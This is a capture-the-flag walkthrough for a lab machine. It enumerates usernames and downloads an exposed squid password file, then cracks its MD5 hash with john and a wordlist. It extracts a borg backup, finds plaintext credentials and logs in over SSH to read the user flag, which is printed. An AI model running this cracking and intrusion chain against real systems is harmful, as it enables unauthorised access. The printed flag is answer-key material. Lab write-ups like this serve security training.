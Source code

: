 1) I discover username from this page "http://10.10.243.68/admin/admin.html":
- Josh
- Alex
- Adam

2) In this directory "http://10.10.243.68/etc/squid/", I discover two file:
- passwd
- squid.conf

3)The file passwd:
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

4) The file  squid.conf:
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

5) Crack the file passwd
6) Acknowledgment the hash:
```
#########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

Possible Hashs:
[+] MD5(APR)
```

7) Save "$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn." in a file: nano hash
8) Crack this hash:
```
┌──(kali㉿kali)-[~]
└─$ john hash -wordlist:/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (?)     
1g 0:00:00:00 DONE (2022-12-16 13:37) 3.448g/s 135062p/s 135062c/s 135062C/s 112806..lilica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

9)  Download the file in this directory "http://10.10.243.68/admin/index.html./archive.tar"
10) Let's untar the tar archive and examine it:
```
┌──(kali㉿kali)-[~]
└─$  tar -xvf archive.tar 
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

11) I extract file:
```
┌──(kali㉿kali)-[~]
└─$ borg extract home/field/dev/final_archive::music_archive
Enter passphrase for key /home/kali/home/field/dev/final_archive:
```

12) I entry in this directory "/home/kali/home"
13) I have see the "tree" of Alex:
```
┌──(kali㉿kali)-[~/home]
└─$ tree alex
alex
├── Desktop
│   └── secret.txt
├── Documents
│   └── note.txt
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos
```
14) I read both file:
```
┌──(kali㉿kali)-[~/home/alex/Desktop]
└─$ cat /home/kali/home/alex/Documents/note.txt  
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
```
┌──(kali㉿kali)-[~/home/alex/Desktop]
└─$ cat /home/kali/home/alex/Desktop/secret.txt    
shoutout to all the people who have gotten to this stage whoop whoop!"
```

15) I discover this account:
- Username: alex
- Password: S3cretP@s3

16) I do access a ssh service and I get the user.txt:
```
┌──(kali㉿kali)-[~/home/alex/Desktop]
└─$ ssh alex@10.10.243.68            
alex@10.10.243.68's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```


